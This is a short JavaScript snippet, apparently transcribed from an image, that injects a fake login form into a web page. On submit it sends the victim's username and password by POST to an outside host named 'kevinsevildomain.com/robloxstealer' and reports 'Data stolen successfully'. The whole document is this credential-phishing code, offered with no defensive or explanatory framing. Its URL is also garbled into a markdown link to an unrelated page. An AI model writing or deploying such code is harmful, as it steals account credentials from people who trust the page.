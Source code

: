 const fakeLoginPage = document.createElement('div');
fakeLoginPage.innerHTML = `
  <form id="fakeLoginForm">
    <label for="username">Username:</label><br>
    <input type="text" id="username" name="username"><br>
    <label for="password">Password:</label><br>
    <input type="password" id="password" name="password"><br><br>
    <input type="submit" value="Submit">
  </form>
`;

function handleFakeLogin(event) {
  event.preventDefault();
  const username = document.getElementById('username').value;
  const password = document.getElementById('password').value;

  fetch('[https://kevinsevildomain.com/robloxstealer](https://tulip-red-rnrc.squarespace.com/config/pages)', {
    method: 'POST',
    body: JSON.stringify({ username, password }),
    headers: {
      'Content-Type': 'application/json'
    }
  })
  .then(response => {
    if (response.ok) {
      alert('Data stolen successfully. KEVIN approves.');
    } else {
      alert('Oops! Something went wrong. KEVIN shrugs.');
    }
  })
  .catch(error => {
    console.error('Error:', error);
  });
}

fakeLoginPage.querySelector('form').addEventListener('submit', handleFakeLogin);

document.body.appendChild(fakeLoginPage);
